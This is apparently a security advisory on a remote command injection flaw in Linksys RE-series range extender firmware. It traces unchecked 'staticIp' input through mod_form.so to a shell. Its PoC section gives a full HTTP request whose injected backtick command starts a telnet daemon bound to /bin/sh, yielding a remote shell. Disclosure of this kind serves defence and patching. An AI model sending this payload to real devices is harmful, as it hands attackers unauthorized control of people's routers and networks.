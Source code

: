 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_setBasicAuto` function, `staticIp、staticNetmask` is directly passed by the attacker, so we can control the `staticIp、staticNetmask` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_red`

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> RP_setBasicByBBS、setWan function exists the same problem, also can set the value of staticIp.



## PoC

We set `staticIp` as **192.168.2.2 `busybox telnetd -l /bin/sh -p 2235`** , and the router will excute it,such as:

```http
POST /goform/RP_setBasicAuto HTTP/1.1
Host: 192.168.2.26
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1326
Origin: http://192.168.2.26
Connection: close
Referer: http://192.168.2.26/wireless/wireless_basic.shtml
Cookie: session_id=wYcnLwsHrSC4ankCTSHsSfkfa18VI47E
Upgrade-Insecure-Requests: 1

hname=RE6500-8A5&fname=Linksys+Range+Extender&cType=STATIC&staticIp=192.168.2.2 `busybox telnetd -l /bin/sh -p 2235`&staticNetmask=255.255.255.0&staticGateway=192.168.2.1&staticPriDns=8.8.8.8&staticSecDns=&staticTrdDns=&TZ=CST_008&save_time=0&device_mode=2&ap_disable_2G=0&ap_mode_2G=9&ap_ssid_2G=pjqwudi&ap_encrypt_2G=AES&ap_AuthMode_2G=WPA2-PSK&ap_DefaultKeyID_2G=&ap_Key1Str1_2G=&ap_Key2Str1_2G=&ap_Key3Str1_2G=&ap_Key4Str1_2G=&ap_EncKey_2G=YWJjMTIzMTIz&ap_channel_2G=0&ap_ext_channel_2G=0&ap_channelWidth_2G=1&ssid_broadcast_AP_2G=2&needset_WscConfigured_2G=1&apcli_ssid_2G=&apcli_encrypt_2G=Not+Use&apcli_AuthMode_2G=NONE&apcli_DefaultKeyID_2G=&apcli_Key1Str1_2G=&apcli_Key2Str1_2G=&apcli_Key3Str1_2G=&apcli_Key4Str1_2G=&apcli_EncKey_2G=&apcli_channel_2G=0&apcli_channelWidth_2G=1&ap_disable_5G=0&ap_mode_5G=14&ap_ssid_5G=pjqwudi1&ap_encrypt_5G=AES&ap_AuthMode_5G=WPA2-PSK&ap_DefaultKeyID_5G=&ap_Key1Str1_5G=&ap_Key2Str1_5G=&ap_Key3Str1_5G=&ap_Key4Str1_5G=&ap_EncKey_5G=YWJjMTIzMTIz&ap_channel_5G=0&ap_ext_channel_5G=0&ap_channelWidth_5G=2&ssid_broadcast_AP_5G=2&needset_WscConfigured_5G=1&apcli_ssid_5G=&apcli_encrypt_5G=Not+Use&apcli_AuthMode_5G=NONE&apcli_DefaultKeyID_5G=&apcli_Key1Str1_5G=&apcli_Key2Str1_5G=&apcli_Key3Str1_5G=&apcli_Key4Str1_5G=&apcli_EncKey_5G=&apcli_channel_5G=0&apcli_channelWidth_5G=2&b64_pwd=1
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

